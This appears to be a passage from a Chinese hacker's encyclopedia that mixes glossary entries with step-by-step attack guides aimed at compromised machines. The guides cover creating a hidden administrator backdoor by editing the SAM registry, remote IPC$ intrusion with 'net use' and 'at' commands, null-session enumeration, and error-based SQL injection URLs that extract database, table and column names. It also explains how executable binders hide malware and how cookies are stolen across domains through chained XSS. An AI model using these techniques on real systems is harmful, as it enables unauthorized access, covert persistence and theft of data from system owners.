启动 regedt32.exe，它最大的优点就是能够对注册表的项键设置权限。修改键值的权限时在右键中点“权限”来修改，而 NT/2000/XP 的账户信息都在注册表的 **HKEY_LOCAL_MACHINE\SAM\SAM** 键下。但是除了系统用户 SYSTEM 外，其它用户都无权查看到里面的信息，因此首先用 regedt32.exe 对 SAM 键设置为“完全控制”权限，这样就可以对 SAM 键内的信息进行读写了。

具体步骤如下：

- 1. 假设我们是以超级用户 administrator 登录到开有终端服务的肉鸡上的，首先在命令行下或账户管理器中建立一个账户：**hacker$**，这里我在命令行下建立这个账户，输入命令：

```bash
net user hacker$ 1234 /add
```

- 2. 在“开始/运行”中输入 regedt32.exe 并回车来运行 regedt32.exe。
- 3. 点“权限”以后会弹出窗口。将登录时的账户添加到安全栏内，如果是以 administrator 的身份登录的，就将 administrator 加入，并设置权限为“完全控制”。

> 这里需要说明一下：最好是添加你登录的账户或账户所在的组，切莫修改原有的账户或组。否则将会带来一系列不必要的问题。等隐藏超级用户建好以后，再来这里将你添加的账户删除即可。

- 4. 再点“开始”→“运行”并输入 regedit.exe 后回车，启动注册表编辑器 regedit.exe，打开键：**HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\hacker$**
- 5. 将项 hacker$、00000409、000001F4 导出为 hacker.reg、409.reg、1f4.reg，用记事本分别打开这几个导出的文件进行编辑。

将超级用户对应的项 000001F4 下的键“F”的值复制，并覆盖 hacker$ 对应的项 00000409 下的键“F”的值，然后再将 00000409.reg 与 hacker.reg 合并。

- 6. 在命令行下执行 `net user hacker$ /del` 将用户 hacker$ 删除。
- 7. 在 regedit.exe 的窗口内按 F5 刷新，然后选择“文件”→“导入注册表文件”，将修改好的 hacker.reg 导入注册表即可。
- 8. 到此，隐藏的超级用户 hacker$ 已经建好了。然后关闭 regedit.exe，在 regedt32.exe 窗口内把 **HKEY_LOCAL_MACHINE\SAM\SAM** 键权限改回原来的样子（只要删除添加的账户 administrator 即可）。
- 9. 注意：隐藏的超级用户建好后，在账户管理器看不到 hacker$ 这个用户，在命令行用“net user”命令也看不到。但是超级用户建立以后，就不能再改密码了；如果用 net user 命令来改 hacker$ 的密码的话，那么在账户管理器中将又会看到这个隐藏的超级用户了，而且不能删除。

再来讲一下通过 IPC 管道进行远程添加隐藏用户。

在这里将用 at 的命令，因为用 at 产生的计划任务是以系统身份运行的，但前提是对方必须开有 schedule 服务。如果没有开启，可用【流光】里带的工具 netsvc.exe 或 sc.exe 来远程启动。当然其它方法也可以，只要能启动 schedule 服务就行。

对于命令行方式，可以采用各种连接方式，如用 SQLexec 连接 MSSQL 的 1433 端口，也可以用 Telnet 服务，其步骤如下：

- 1. 这里先假设找到一台超级用户为 administrator，密码为 12345678 的【肉鸡】，现在我们开始在命令行下远程为它建立隐藏的超级用户。例子中的主机是我局域网内的一台主机，我将它的 IP 地址改为 13.50.97.238，请勿在互联网上对号入座，以免骚扰正常的 IP 地址。
- 2. 先与肉鸡建立连接，命令为：`net use \\13.50.97.238\ipc$ "12345678" /user:"administrator"`
- 3. 用 at 命令在肉鸡上建立一个用户（如果 at 服务没有启动，可用小榕的 netsvc.exe 或 sc.exe 来远程启动）：

```bash
at \\13.50.97.238 12:51 c:\winnt\system32\net.exe user hacker$ 1234 /add
```

建立这个加有 $ 符的用户名，是因为加有 $ 符后，命令行下用 net user 将不显示这个用户，但在账户管理器却能看到这个用户。

- 4. 同样用 at 命令导出 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users` 下键值：

```bash
at \\13.50.97.238 12:55 c:\winnt\regedit.exe /e hacker.reg HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\
```

> 注：`/e` 是 regedit.exe 的参数，`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\` 这个键一定要以 `\` 结尾。必要的情况下可以用引号将 `"c:\winnt\regedit.exe /e hacker.reg HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\"` 引起来。

- 5. 将肉鸡上的 hacker.reg 下载到本机上，然后用记事本打开进行编辑。命令为：`copy \\13.50.97.238\admin$\system32\hacker.reg c:\hacker.reg`。修改方法在上面已经说了，这里就不作介绍了。
- 6. 再将编辑好的 hacker.reg 拷回到肉鸡上，命令为：`copy c:\hacker.reg \\13.50.97.238\admin$\system32\hacker1.reg`
- 7. 查看肉鸡时间，命令为：`net time \\13.50.97.238`，然后用 at 命令将用户 hacker$ 删除：`at \\13.50.97.238 13:40 net user hacker$ /del`
- 8. 验证 hacker$ 是否被删除可用以下命令：

```bash
net use \\13.50.97.238 /del
net use \\13.50.97.238\ipc$ "1234" /user:"hacker$"
```

用账户 hacker$ 与肉鸡连接，不能连接说明已删除。

- 9. 再与肉鸡建立连接，命令为：`net use \\13.50.97.238\ipc$ "12345678" /user:"administrator"`，接着再取得肉鸡时间，用 at 命令将拷回肉鸡的 hacker1.reg 导入肉鸡注册表。命令为：`at \\13.50.97.238 13:41 c:\winnt\regedit.exe /s hacker1.reg`。`regedit.exe` 的参数 `/s` 是指安静模式。
- 10. 再验证 hacker$ 是否已建立，方法同上面验证 hacker$ 是否被删除一样。
- 11. 再验证用户 hacker$ 是否有读、写、删的权限，如果不放心，你还可验证是否能建立其它账户。
- 12. 通过 11 可以断定用户 hacker$ 具有超级用户权限，因为最初我用 at 命令建立它的时候是一个普通用户，而现在却具有远程读、写、删的权限。

如果肉鸡没有开 3389 终端服务，同时你又不想用命令行操作，这样可以利用 regedit.exe、regedt32.exe 网络注册表的功能远程修改其键值。账户管理器也有一项连接另一台计算机的功能，你可以用账户管理器为远程主机建立和删除账户，具体步骤与上面介绍的相似，但是这里有两个前提：

- （1）先用 `net use \\肉鸡ip\ipc$ "密码" /user:"超级用户名"` 命令来与远程主机建立连接以后，才能用 `regedit.exe`、`regedt32.exe` 及账户管理器与远程主机连接。
- （2）远程主机必须开启远程注册表服务。

## HACK TIPS:

- 1. 隐藏的超级用户建立以后，在账户管理器中和命令行下均看不到这个用户，但这个用户却存在。
- 2. 隐藏的超级用户建立以后，就不能再修改密码了，因为一旦修改密码，这个隐藏的超级用户就会暴露在账户管理器中，而且不能删除。
- 3. 如在本机上试验时，最好用系统自带的备份工具先备份好本机的“系统状态”，主要是注册表的备份，毕竟 SAM 表是很敏感的地方。

## 客户端  黑客技术基础

C/S 模式的两个组成部分之一，又称控制端。

## HACK TIPS:

其实木马就是典型的 C/S 模式程序，而这里的客户端其实就是木马的控制端。

## 空值  黑客技术基础

在程序编写时常要用到的概念，即 NULL。例如许多时候【指针】清空时就需要赋空值。

## 空会话  黑客技术基础

空会话是 IPC 中的一个重要概念，简单地说就是用户名与密码都为空的 IPC 会话。

在详细介绍空会话之前，我们有必要了解一下一个安全会话是如何建立的。在 Windows NT 4.0 以上的系统中，是使用【挑战/响应验证机制】与远程机器建立一个会话的。建立成功的会话将成为一个安全隧道，从而建立双方通过它互通信息，这个过程的大致顺序如下：

- 1. 会话请求者（客户端）向会话接收者（服务器）传送一个数据包，请求安全隧道的建立；
- 2. 服务器产生一个随机的 64 位数（实现挑战）传送回客户；
- 3. 客户取得这个由服务器产生的 64 位数，用试图建立会话的账号的口令打乱它，将结果返回到服务器（实现响应）；
- 4. 服务器接受响应后发送给本地安全验证（LSA）；LSA 通过使用该用户正确的口令来核实响应以便确认请求者身份。如果请求者的账号是服务器的本地账号，核实本地发生；如果请求的账号是一个域的账号，响应传送到域控制器去核实。当对挑战的响应核实为正确后，一个访问令牌产生，然后传送给客户。客户使用这个访问令牌连接到服务器上的资源直到建立的会话被终止。

以上是一个安全会话建立的大致过程，那么空会话又如何呢？

**空会话是在没有信任的情况下与服务器建立的会话（即未提供用户名与密码）。**但根据 Win2000 的访问控制模型，空会话的建立同样需要提供一个令牌，可是空会话在建立过程中并没有经过用户信息的认证，所以这个令牌中不包含用户信息。

因此，这个会话不能让系统间发送加密信息，但这并不表示空会话的令牌中不包含安全标识符 SID。对于一个空会话，LSA 提供的令牌的 SID 是 S-1-5-7，这就是空会话的 SID，用户名是：ANONYMOUS LOGON（这个用户名是可以在用户列表中看到的，但是不能在 SAM 数据库中找到，属于系统内置的账号）。

因为在 Win2000 和以后的版本中，默认只有管理员和备份操作员有权从网络访问到注册表，而且实现起来也不方便，需借助工具。

从这些我们可以看到，这种非信任会话并没有多大的用处，但从一次完整的 IPC$ 入侵来看，空会话是一个不可缺少的跳板，因为我们从它那里可以得到用户列表，这对于一个老练的黑客来说已经足够了。

以下是空会话中能够使用的具体命令：

- 1、首先建立一个空会话（需要目标开放 IPC$），命令为：`net use \\ip\ipc$ "" /user:""`

注意：上面的命令包括四个空格，net 与 use 中间有一个空格，use 后面一个，密码左右各一个空格。

- 2、接着查看远程主机的共享资源，命令为：`net view \\IP`

解释：建立了空连接后，用此命令可以查看远程主机的共享资源，如果它开了共享，可以得到如下类似结果：

```
在 \\*.*.*.* 的共享资源
资源共享名  类型  用途  注释
----------------------------------------------
NETLOGON  Disk  Logon server share
SYSVOL    Disk  Logon server share
命令成功完成。
```

- 3、现在查看远程主机的当前时间，命令为：`net time \\IP`

解释：用此命令可以得到一个远程主机的当前时间。

- 4、最后得到远程主机的 NetBIOS 用户名列表（需要打开自己的 NBT），命令为：`nbtstat -A IP`

用此命令可以得到一个远程主机的 NetBIOS 用户名列表（需要你的 NetBIOS 支持），返回结果如下：

```
Node IpAddress: [*.*.*.*] Scope Id: []
NetBIOS Remote Machine Name Table
Name  Type  Status
----------------------------------------------
SERVER <00> UNIQUE Registered
OYAMANISHI-H <00> GROUP Registered
OYAMANISHI-H <1C> GROUP Registered
SERVER <20> UNIQUE Registered
OYAMANISHI-H <1B> UNIQUE Registered
OYAMANISHI-H <1E> GROUP Registered
SERVER <03> UNIQUE Registered
OYAMANISHI-H <1D> UNIQUE Registered
__MSBROWSE__ <01> GROUP Registered
Inet~Services <1C> GROUP Registered
IS~SERVER <00> UNIQUE Registered
MAC Address = 00-50-8B-9A-2D-37
```

以上就是空会话所能做的事情，好像也能获得不少东西，不过要注意一点：建立 IPC$ 连接的操作会在 EventLog 中留下记录，不管你是否登录成功。

## 空口令  黑客技术基础

没有设置密码的口令就为空口令，这是最常见的安全漏洞之一。

## 库名 数据库

数据库技术中每个独立的数据库都有一个名称，这就叫做库名。每个库里容的是【表】。如图K-3，就是通过 SQL SERVER 的企业管理器来查看数据库中的各个库，其中的“guestbook”、“master”、“model”等就是库名。



图K-3

## 跨库查询 数据库

对于大部分数据库来说，一个【查询语句】只能查询当前数据库所存储的内容，而跨库是指通过其他的方式查询其他指定数据库的过程。

## 跨库查询攻击 攻击方法与行为

跨库查询攻击是建立在【跨库查询】的基础上的，它是在对 SQL SERVER 进行注入时一种常见的猜解表名与字段名的方式。当对 SQL SERVER 进行 SQL 注入时，假如管理员把字段名改得非常复杂的话，那么猜解表名与字段名将会是一件非常痛苦的事，这个时候就要利用跨库查询来解决这些问题了。在攻击的过程中需要利用到三个重要的 MSSQL 系统表，其介绍如下：

- 1. sysdatabases

MSSQL 中对 sysdatabases 系统表的说明如下：Microsoft SQL Server 上的每个数据库在表中占一行。最初安装 SQL Server 时，sysdatabases 包含 master、model、msdb、mssqlweb 和 tempdb 数据库的项，该表只存储在 master 数据库中，它保存了所有的库名以及库的 ID 和一些相关信息，其中有两个重要的【字段】，分别是 name 和 dbid，它们分别表示库的名字及库的 ID。dbid 从 1 到 5 是系统的库，分别是：master、model、msdb、mssqlweb、tempdb 这五个库。这里用 SQL 语句：**select * from master.dbo.sysdatabases**就可以查询出所有的库名。

- 2. sysobjects

MSSQL 中对 sysobjects 系统表的说明如下：在数据库内创建的每个对象（约束、默认值、日志、规则、存储过程等）在表中占一行。只有在 tempdb 内，每个临时对象才在该表中占一行。这个是列出数据库对象的系统表，当然数据库表名也在里面，其中有四个重要的字段：

name、id、xtype、uid，分别表示对象名、对象 ID、对象类型、所有者对象的用户 ID。

其中对象类型（xtype），可以是下列对象类型中的一种：

- C = CHECK 约束
- D = 默认值或 DEFAULT 约束
- F = FOREIGN KEY 约束
- L = 日志
- FN = 标量函数
- IF = 内嵌表函数
- P = 存储过程
- PK = PRIMARY KEY 约束（类型是 K）
- RF = 复制筛选存储过程
- S = 系统表
- TF = 表函数
- TR = 触发器
- U = 用户表
- UQ = UNIQUE 约束（类型是 K）
- V = 视图
- X = 扩展存储过程

利用这种方法时需取 **xtype='U'** 的值，当等于 U 的时候，对象名就是表名，对象 ID 就是表的 ID 值。

```sql
select * from cody.dbo.sysobjects where xtype='U'
```

这样就可以列出库名称是 cody 的数据库中所有的表名。

- 3. syscolumns

MSSQL 中 syscolumns 系统表的说明如下：

每个表和视图中的每列在表中占一行，存储过程中的每个参数在表中也占一行。该表位于每个数据库中，它是列出一个表中所有字段列表的系统表，其中有三个重要的字段：name、id、colid，它们分别表示字段名称、表 ID 号与字段 ID 号。

其中的 ID 是刚才我们用 sysobjects 得到的表的 ID 号。

```sql
select * from cody.dbo.syscolumns where id=123456789
```

得到 ChouYFD 这个库中，表的 ID 是 123456789 中的所有字段列表。

这样我们就可以利用这些系统表来得到其他的库名、表名与字段名了。

对于 SQL SERVER 来说，当两个类型值不一样的时候，将它们做比较，SQL 系统会提示出错，并且会显示出类型的值。如：'aaa1'>100 这样比较，也就是字符串和数字的比较，当然会报错。而跨库查询攻击就是利用的这种报错来爆出系统表里的内容，从而得到其他的库名与表名。

#### 实例一：得到所有库名

```sql
http://www.AAA.com/jump.asp?id=3400 and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6)
```

因为 dbid 的值从 1 到 5 是系统用的，所以用户自己建的一定是从 6 开始的。并且我们提交了 name>1，name 字段是一个字符型的字段，和数字比较会出错。那我们提交看一下 IE 返回了什么？

> Microsoft OLE DB Provider for SQL Server 错误 '80040e07'  
> 将 nvarchar 值 'Northwind' 转换为数据类型为 int 的列时发生语法错误。  
> /jump.asp，行 33

#### 实例二：得到 bbs 这个库中所有的表名

```sql
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype='U')
```

这一句是让 name 的值和数字 0 比较，这样就会暴露出 name 的值。这里得到了一个表名 Address。

再来接着爆其他的表：

```sql
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype='U' and name not in('Address'))
```

又出来一个表名，名叫：admin

依次将爆出来的表名放入 not in() 里就可以爆出其他的表名，如：and name not in('address','admin',...))

要爆字段的话还需要将表的 ID 爆出来，输入下列 SQL 语句：

```sql
http://www.AAA.com/jump.asp?id=3400 and 0<>(select count(*) from bbs.dbo.sysobjects where xtype='U' and name='admin' and uid>(str(id)))
```

返回的值为：773577794

#### 实例三：得到 ADMIN 这个表中的所有字段列表

```sql
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from BBS.dbo.syscolumns where id=773577794)
```

上面一句又是把 name 和数字比较，IE 返回：adduser，下面的过程与爆表名相似，也是依次将爆出来的字段名放入 not in() 里就可以爆出其他的表名。

```sql
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from BBS.dbo.syscolumns where id=773577794 and name not in('adduser'))
```

又返回一个字段名：flag

下面的事就是去查询字段名了，详细过程省略，如果不清楚的可以去查看 SQL 注入词条。

## 跨站攻击 攻击方法与行为

更多的是跨站脚本攻击，即 Cross Site Script，但被书写和读成 XSS。这也是 SQL 注入时代结束后，最流行的 WEB 攻击方式。跨站脚本攻击是指在远程 WEB 页面的 HTML 代码中插入的具有恶意目的的数据。用户认为该页面是可信赖的，但是当浏览器下载该页面时，嵌入其中的脚本将被解释执行。

之所以写成 XSS 是因为 CSS 是层叠样式表（Cascading Style Sheets）的缩写，为了避免混淆，所以用和 Cross 发音近似的 X 来代替。如果你听某人提到 CSS 或者 XSS 安全漏洞，通常指的是跨站脚本。

其实“跨站点脚本”这个词应该属于用词不当的情况，因为它不仅与脚本有关，而且它甚至不一定是跨站点的。所以，它就是一个在发现这种攻击时起的一个名字，并且一直沿用至今，故称为跨站脚本。

跨站脚本漏洞的本质是 HTML 的注入问题，如果恶意用户的输入（比如昵称、评论、头像、E-mail 等）没有经过严格的筛选就进入了数据库，并最后生成在显示给来访用户的页面中，那么用户访问该页面时，浏览器就会执行恶意用户所输入的 HTML 代码。

因为浏览器的功能就是解释 Web 服务器发送过来的 HTML 代码，它无法分辨出哪些 HTML 代码应该解释执行，哪些只是数据内容（比如上面提到的昵称、评论、头像、E-mail 等）从而应该简单显示。如果恶意用户的输入部分符合 HTML 的语法规范，则在显示时，就会被浏览器自动解释成 HTML 代码。

而跨站漏洞产生的原因是由于程序员在编写程序时对一些变量没有做充分的过滤，直接把用户提交的数据送到 SQL 语句里执行，这样导致用户可以提交一些特意构造的语句，一般都是带有像 JavaScript 等这类脚本代码。在这基础上，黑客利用跨站漏洞输入恶意的脚本代码，当恶意的代码被执行后就形成了所谓的跨站攻击。

## HACK TIPS:

常见的跨站攻击分两类，一类是存储型 XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面就可能受到攻击。

另外一类是参数型 XSS，主要是将脚本加入 URL 地址的程序参数里，参数进入程序后在页面直接输出脚本内容，用户点击类似的恶意链接就可能受到攻击。

传统的 XSS 攻击都是盘算如何盗取客户端 COOKIE，然后劫持客户端和 WEB 服务端的会话；其他还有利用 XSS 进行网络钓鱼的攻击方法，这类攻击都是针对客户端进行攻击。而近年流行的 XSS WORM 攻击方式，是通过 AJAX 技术把恶意的 XSS 数据感染到每一个用户，可以对 WEB 服务造成很大的影响，间接实现了对 WEB 服务端的攻击。

## 疯狂幽灵 黑客工具

一款针对 ASP 进行 SQL 注入的傻瓜化工具，其功能与 NBSI 相似，图 K-4 为其界面。



## 傀儡机 特定名称

傀儡机是进行大规模 DDOS 攻击（当然也包括其他需要大量主机的攻击）中常见的一个概念。简单地说，傀儡机就是被攻击者控制，同时对目标进行直接攻击的机器。

攻击者大部分是通过【挂马】与 ARP 病毒（当然两者可以结合）来得到大量的机器（一般可有成百上千，或上万台），这些机器大部分是普通的网民，他们在毫不知情的情况下成了恶意攻击者的工具，从而帮他们完成一系列猖獗的攻击行为。

## 捆绑 攻击方法与行为

实现运行一个可执行文件后同时运行其他多个可执行文件。

说白点其实就是把多个可执行文件“组合”成一个可执行文件，而这一个可执行文件还必须有“分解”的能力，这样才能把捆绑起来的 EXE 分离出来，使之正常运行。

而“组合”也可以有多种形式，下面为主要的几种捆绑方法：

- 1. 把 EXE 文件一个个地加到文件末尾

这种原理很简单，也是目前用得最多的一种，就是将 B.exe 附加到 A.exe 的末尾。这样当 A.exe 被执行的时候，B.exe 也跟着执行了。这种捆绑器的代码满网络都是，就目前来说，已经没什么技术含量了。

- 2. 资源包裹捆绑法

这是以资源形式组合到一个 EXE 文件中的方式。资源是 EXE 中的一个特殊区段，可以用来包含 EXE 需要／不需要用到的任何一切东西。

这种方法的捆绑器是如何利用这一点的呢？它只需要用到 BeginUpdateResource、UpdateResource 和 EndUpdateResource 这三个 API 函数就可以搞定，因为这三个 API 函数是用来做资源更新／替换用的。

作者只需先写一个包裹捆绑文件的头文件 Header.exe，头文件中只需一段释放资源的代码。而捆绑器用的时候先将头文件释放出来，然后用上面说的三个 API 函数将待捆绑的文件更新到这个头文件中即完成了捆绑。类似原理被广泛运用到木马生成器上。

- 3. 编译器捆绑法

这种方法相当阴险，是将要捆绑的文件转换成 16 进制保存到一个数组中。像这样的语句：`numa:array[0..9128] of Byte=($4D,$5A,$50...$00);`

需要用时再用 API 函数 CreateFile 和 WriteFile 便可将文件还原到硬盘，这样代码中的数组经过编译器、连接器这么一弄，检测到的可能性就很小了。

## 跨域窃取Cookie 攻击方法与行为

跨域窃取 Cookie 在理论上一般是无法实现的，因为 IE 有一个隐私报告功能，它会阻挡所有的第三方 Cookie。比如 A 域 Web 页面嵌入了 B 域的文件，客户端浏览器访问了 A 域的 Web 页面后，对 B 域发起的文件请求所带上的 Cookie 会被 IE 拦截。

除开文件请求情况，A 域的 Web 页面如果使用 IFRAME 嵌包含 B 域的 Web 页面，在访问 A 域的 Web 页面后，B 域的 Web 页面里的所有请求，包括文件请求带上的 Cookie，同样会被 IE 拦截。

不过 Internet Explorer 的这个安全功能有两个特性，一是不会拦截内存 Cookie；二是在网站设置了 P3P 头的情况下，会允许跨域访问 Cookie，隐私报告功能就不会起作用了。

当然，在特殊情况下，还是有可能跨域窃取 Cookie 的，不过条件非常苛刻。比如你想通过 A 网站上的 XSS 漏洞来窃取受害者在 B 网站上的 Cookie，就必须在 B 网站上也有一个 XSS 漏洞。当浏览器被 XSS 攻击后，攻击者可以用 js 或其他脚本控制浏览器的行为。这时候如果我们强制浏览器去访问站点 B 上一个存在 XSS 漏洞的页面，就可以继续用 B 站上的 XSS_B 控制用户的浏览器行为。

而在 IE 中，iframe、img 等标签都是拦截本地 cookie 的，于是这些都不能用，需要使用不拦截 cookie 的标签，比如 window.open 等方法。但是 window.open 会被 IE 拦截弹出窗口，所以一般会使用表单提交，即构造一个 form，向 B 网站提交，然后再从 B 网站导入一个 XSS_B。获取了 cookie 后，再通过表单提交，跳转回原来的 A 网站。

## 扩展名 操作系统及其相关

扩展名又称后缀名，是操作系统用来标志文件格式的一种机制。通常来说，一个扩展名是跟在文件名后面的，由一个分隔符分隔。在一个像“readme.txt”的文件名中，“readme”是文件名，“txt”为扩展名，表示这个文件是一个纯文本文件。

常见的扩展名有 exe（可执行文件）、dll（动态链接库文件）、doc（Word 文档）、wps（WPS 文档）、xls（Excel 电子表格）、ppt（PowerPoint 演示文稿）、jpg（图片）、txt（纯文本）、rar（WinRAR 压缩文件）、htm（网页文件）、html（网页文件）等等。

## 垃圾邮件 黑客技术基础

垃圾邮件可以简单地理解为未经邮箱用户许可就强行发送到用户邮箱中的任何电子邮件。而中国互联网协会在《中国互联网协会反垃圾邮件规范》中是这样定义垃圾邮件的：

- 1. 收件人事先没有提出要求或者同意接收的广告、电子刊物、各种形式的宣传品等宣传性的电子邮件；
- 2. 收件人无法拒收的电子邮件；
- 3. 隐藏发件人身份、地址、标题等信息的电子邮件；
- 4. 含有虚假的信息源、发件人、路由等信息的电子邮件。

在垃圾电子邮件出现之前，美国一位名为蔡福德·华莱士的人成立了一间公司，专门为其他公司客户提供收费广告传真服务。由于惹起接收者的反感，以及浪费纸张，美国立法禁止未经同意的传真广告。后来华莱士把广告转到电子邮件，垃圾邮件便顺理成章地出现了。

垃圾邮件有以下一些特征：垃圾邮件一般具有批量发送的特征，其内容包括赚钱信息、成人广告、商业或个人网站广告、电子杂志、连环信等。垃圾邮件可以分为良性和恶性的。良性垃圾邮件是各种宣传广告等对收件人影响不大的信息邮件；恶性垃圾邮件是指具有破坏性的电子邮件。

一些有心人会从网上多个 BBS 论坛、新闻组等收集网民的电子邮件地址，再售予广告商，从而发送垃圾邮件到这些地址。随着垃圾邮件的问题日趋严重，大部分邮件服务提供商也各自推出反垃圾邮件的服务。但“道高一尺，魔高一丈”，垃圾邮件的格式更加日新月异，用以避免被侦测到。

垃圾邮件可以说是因特网带给人类最具争议性的副产品，它的泛滥已经使整个因特网不堪重负。其主要危害如下：

- 1. 占用网络带宽，造成邮件服务器拥塞，进而降低整个网络的运行效率；
- 2. 侵犯收件人的隐私权，侵占收件人信箱空间，耗费收件人的时间、精力和金钱；有的垃圾邮件还盗用他人的电子邮件地址做发信地址，严重损害了他人的信誉；
- 3. 被恶意攻击者利用，如在 2000 年 2 月，黑客攻击雅虎等五大热门网站就是一个例子。黑客先是侵入并控制了一些高带宽的网站，集中众多服务器的带宽能力，然后用数以亿计的垃圾邮件猛烈袭击目标，造成被攻击网站网络堵塞，最终瘫痪；
- 4. 严重影响 ISP 的服务形象。在国际上，频繁转发垃圾邮件的主机会被上级国际因特网服务提供商列入国际垃圾邮件数据库，从而导致该主机不能访问国外许多网络，而且收到垃圾邮件的用户会因为 ISP 没有建立完善的垃圾邮件过滤机制，而转向其他 ISP。一项调查表明：ISP 每争取一个用户要花费 75 美元，但是每年因垃圾邮件要失去 7.2% 的用户；
- 5. 妖言惑众、骗人钱财、传播色情等内容的垃圾邮件，已经对现实社会造成了危害。

## 应用篇

### 操作系统及其相关

## 蓝屏

蓝屏是蓝屏死机的简称，它是微软操作系统的“标志性”画面之一，一般指的是微软 Windows 操作系统在无法从一个系统错误中恢复过来时所显示的屏幕图像。Windows 中有两个图像都被称为蓝屏死机，其中一个要比另一个严重得多。

一种轻微的蓝屏发生在 Windows 9X/ME 中，它允许用户选择继续（按 ESC 键）或重新启动。这种蓝屏在很多时候并不是致命的错误，也算不上是真正的死机（Really Bad Errors）。

真正的死机画面只在 Windows NT 的系统内核无法修复错误时出现，此时用户所能做的唯一一件事就是重新启动操作系统。这样会丢失所有未储存的工作，还有可能破坏文件系统的稳定性。

蓝屏死机时画面上所显示的信息会有侦错码，例如 STOP：0x0000004e，以及其简短的错误讯息，用户可以在微软的技术支援网站 http://support.microsoft.com 搜寻此侦错码出现当时可能是什么原因。但有时错误码并不能让使用者很快地找到导致蓝色画面当机的原因，反而会误导用户，因此可能要以试误法（trial and error）才能找出原因。

蓝屏死机一般只在 Windows 遇到一个很严重的错误时才出现，如图 L-1，为典型的蓝屏画面。该版本的蓝屏死机出现在 Windows NT 以及基于 Windows NT 的后续版本，例如 Windows 2000 与 Windows XP 中。

**蓝屏死机出现的最常见原因是 DLL 错误，即同一个 DLL 的多个版本造成的不兼容。**当应用程序需要使用这些 DLL 时，Windows 将它们载入内存，如果替换了 DLL，下一次应用程序载入 DLL 时它可能不是该应用程序所希望的版本。这种不兼容性随着安装更多的新软件而增加，这也是为什么一个新安装的 Windows 往往比安装运行一段时期后的 Windows 更加稳定的主要原因。

